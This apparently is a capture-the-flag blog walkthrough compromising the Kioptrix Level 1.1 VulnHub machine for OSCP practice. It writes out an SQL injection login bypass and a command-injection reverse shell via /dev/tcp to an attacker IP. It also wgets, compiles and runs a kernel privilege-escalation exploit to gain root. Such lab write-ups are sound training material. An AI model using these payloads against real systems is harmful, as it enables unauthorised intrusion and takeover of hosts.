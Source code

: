 ```yaml
---
layout: post
title: " Kioptrix - Level 1.1"
date: 2020-08-08
ctf: true
excerpt: "Walkthrough for Kioptrix Level 1.1 on Vulnhub"
tags: [SQL injection, command execution, privilege escalation]
comments: false
---
```

[Kioptrix]( https://www.vulnhub.com/entry/kioptrix-level-11-2,23/) Level 1.1 is a vulnerable machine found on the [NetSecFocus Trophy Room](https://docs.google.com/spreadsheets/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/edit#gid=0) list which I have been using as preparation for the OSCP. Below is a walkthrough to compromise this machine.

First, after downloading and importing the machine into VMware, I had to figure out the IP address of the machine. I used **netdiscover -i eth0** until I came across the IP of this machine.

![Kioptrix Level 1.1 netdiscover](/assets/img/KioptrixLevel21.png)

Next, I ran **threader3000** and let it run it's suggested nmap scan to enumerate the open ports.

![Kioptrix Level 1.1 threader3000](/assets/img/KioptrixLevel22.png)

![Kioptrix Level 1.1 nmap](/assets/img/KioptrixLevel23.png)

Let's take a look at the websites on ports 80 and 443 to start. The same site comes up asking you to login both over http and https.

![Kioptrix Level 1.1 website](/assets/img/KioptrixLevel24.png)

We know mysql is running on port 3306 based on nmap, so let's try to use basic SQL injection to see if we can bypass authentication. For the username I entered **admin** and for the password I entered **' or 1=1 -- -**

This allowed me to bypass authentication and leads me to a screen that allows me to ping a machine on the network.

![Kioptrix Level 1.1 Basic Admin Console](/assets/img/KioptrixLevel25.png)

Let's enter the following and see what happens: **127.0.0.1;whoami**. This causes another tab to open up, where it shows the results of pinging localhost along with the user on the last line (apache). This confirms that this is open to command injection!

![Kioptrix Level 1.1 command injection](/assets/img/KioptrixLevel26.png)

Open up a new terminal window from your attacker pc and run **nc -nvlp 4444** to start a listener on port 4444.

![Kioptrix Level 1.1 nc listener](/assets/img/KioptrixLevel27.png)

Go back to your web browser, close the newly opened tab with the ping/whoami output, and  go back to the admin web console. Enter **127.0.0.1;bash -i >& /dev/tcp/[attacker ip]/4444 0>&1** and click on submit.

![Kioptrix Level 1.1 command injection reverse shell](/assets/img/KioptrixLevel28.png)

Once submitted, look at your terminal with the netcat listener, you should have a reverse bash shell.

![Kioptrix Level 1.1 reverse shell](/assets/img/KioptrixLevel29.png)

Running **whoami** shows that you are the **apache** user. Running **uname -a** shows that this is using Linux Kernel **2.6.9-55.EL** on an i386 platform.

![Kioptrix Level 1.1 whoami uname -a](/assets/img/KioptrixLevel210.png)

On another terminal window on your attacker pc, run **searchsploit 2.6.x**, and you will find a Local Privilege Escalation exploit as shown below:

![Kioptrix searchsploit Linux Kernel](/assets/img/KioptrixLevel211.png)

Let's run **searchsploit -m 9545** to make a copy of this script in our current directory and run **python3 -m http.server** to serve up a python HTTP server.

![Kioptrix Level 1.1 searchsploit copy python http server](/assets/img/KioptrixLevel212.png)

From your apache shell on the victim computer, run **cd /tmp** followed by **wget http://[attacker ip]:8000/9545.c**

![Kioptrix Level 1.1 wget copy exploit](/assets/img/KioptrixLevel213.png)

Next, run **cat 9545.c** and look at the comments, you will see a section on how to compile this exploit.

![Kioptrix Level 1.1 cat exploit](/assets/img/KioptrixLevel214.png)

To compile this exploit, run **gcc -Wall -o 9545 9545.c**, as the filename we're using is 9545.c instead of linux-sendpage.c. This will create an executable called 9545 in the /tmp folder.

![Kioptrix Level 1.1 compile exploit](/assets/img/KioptrixLevel215.png)

As you can see, this compiled as **9545** and is executable. run **./9545** and you should end up with a root shell!

![Kioptrix Level 1.1 root shell](/assets/img/KioptrixLevel216.png)

That's it! There wasn't any flags I could find like in Level 1, so I don't believe there is one present on this box.
